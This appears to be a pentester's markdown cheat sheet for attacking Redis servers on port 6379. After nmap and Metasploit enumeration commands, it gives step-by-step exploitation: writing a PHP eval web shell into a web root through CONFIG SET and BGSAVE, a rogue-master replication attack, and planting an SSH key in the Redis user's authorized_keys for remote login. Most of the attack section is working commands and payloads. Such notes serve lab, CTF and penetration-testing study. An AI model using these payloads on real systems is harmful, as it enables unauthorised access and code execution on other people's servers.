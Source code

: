 ```yaml
---
id: services
aliases: []
tags: []
---
```

# Services 
[[#Redis /6379]]
  
  
## Redis /6379
> Redis is an open source, in-memory data structure store, used as a database, cache and message broker.

### Enumeration:    
```bash
   nmap --script redis-info -sV -p 6379 <IP>
   msf> use auxiliary/scanner/redis/redis_server
 ```
### Commands:
> [Cheat-Sheet](https://lzone.de/#/LZone%20Cheat%20Sheets/DevOps%20Services/Redis)

### Exploitation
> #### Authentication:
> ***Brute force***

1. **Easy**:
> [!IMPORTANT] Must have rights to access the dir / Must know the web root dir
```redis 
CONFIG SET
1. Change database file location
CONFIG SET dir /var/www/uploads/
2. Change database file name
CONFIG SET dbfilename sh.php
3. Inject your shell payload into database
SET PAYLOAD '<?php eval($_GET[0]);?>'
4. Save database to file
BGSAVE
```
2. **[Redis-rogue-server.py](https://github.com/n0b0dyCN/redis-rogue-server)** 
> Sets a redis server which operates as a master and sends commands and writes to files to target with partial or total resynchronization 
```redis
rogue server
1. PING - test if a connection is still alive
+PONG
2. REPLCONF - exchange replication information between
master and slave
+OK
3. PSYNC/SYNC <replid> - synchronize slave state with
the master (partial or full)
+CONTINUE <replid> 0
[Source](https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf)
```

> [!note]
> Compile the .so on your machine
> run `redis-cli -h <IP> flushall` to remove all changes otherwise it can give an error  



3. **ssh** :
>Generate a ssh public-private key pair on your pc: 

   `ssh-keygen -t rsa`

> Write the public key to a file : 

  `(echo -e "u\n\nu"; cat ~/id_rsa.pub; echo -e "\n\n") > spaced_key.txt`

> Import the file into redis : 

`cat spaced_key.txt | redis-cli -h 10.85.0.52 -x set ssh_key`

> Save the public key to the authorized_keys file on redis server:

```
root@Urahara:~# redis-cli -h 10.85.0.52
10.85.0.52:6379> config set dir /var/lib/redis/.ssh
OK
10.85.0.52:6379> config set dbfilename "authorized_keys"
OK
10.85.0.52:6379> save
OK
```

> Finally, you can ssh to the redis server with private key : 

`ssh -i id_rsa redis@10.85.0.52 `

### ***Tags***:
| OS | Vuln versions | Techniques |
|----| ------------- | ---------- |
| Windows, Linux | 4 - 5  | SSRF, SSH, Reverse-shell, Web-shell  |
 



